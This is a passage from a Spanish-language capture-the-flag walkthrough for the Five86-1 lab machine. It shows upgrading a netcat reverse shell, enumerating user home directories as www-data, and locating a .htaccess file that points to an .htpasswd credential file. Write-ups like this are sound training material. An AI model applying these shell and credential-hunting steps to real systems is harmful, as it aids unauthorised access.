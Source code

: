 Al escribir `reset xterm` darle al `ENTER`

```bash
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

Estos son los usuarios

```bash
www-data@five86-1:/home$ ls
douglas  jen  moss  richmond  roy
www-data@five86-1:/home$ 
```

No hay nada interesante por que somos `www-data`

```bash
www-data@five86-1:/home$ find . 2>/dev/null
.
./roy
./douglas
./richmond
./moss
./jen
www-data@five86-1:/home$ find . -ls 2>/dev/null
   262150      4 drwxr-xr-x   7 root     root         4096 Jan  1  2020 .
   295511      4 drwx------   2 roy      roy          4096 Jan  1  2020 ./roy
   295514      4 drwx------   3 douglas  douglas      4096 Jan  1  2020 ./douglas
   295513      4 drwx------   2 richmond richmond     4096 Jan  1  2020 ./richmond
   295510      4 drwx------   3 moss     moss         4096 Jan  1  2020 ./moss
   295512      4 drwx------   4 jen      jen          4096 Jan  1  2020 ./jen
www-data@five86-1:/home$ 
```

Podemos buscar por la ruta que habiamos visto de `reports` por que hay un panel de `login`

```bash
www-data@five86-1:/home$ find / -name reports 2>/dev/null
/var/www/html/reports
/opt/ona/www/workspace_plugins/builtin/reports
www-data@five86-1:/home$ 

```

Hay un contenido oculto

```bash
www-data@five86-1:/var/www/html/reports$ find .
.
./index.html
./.htaccess
www-data@five86-1:/var/www/html/reports$ 
```

```bash
www-data@five86-1:/var/www/html/reports$ cat .htaccess 
AuthType Basic
AuthName "Restricted Area"
AuthUserFile /var/www/.htpasswd
require valid-user
www-data@five86-1:/var/www/html/reports$ 

```
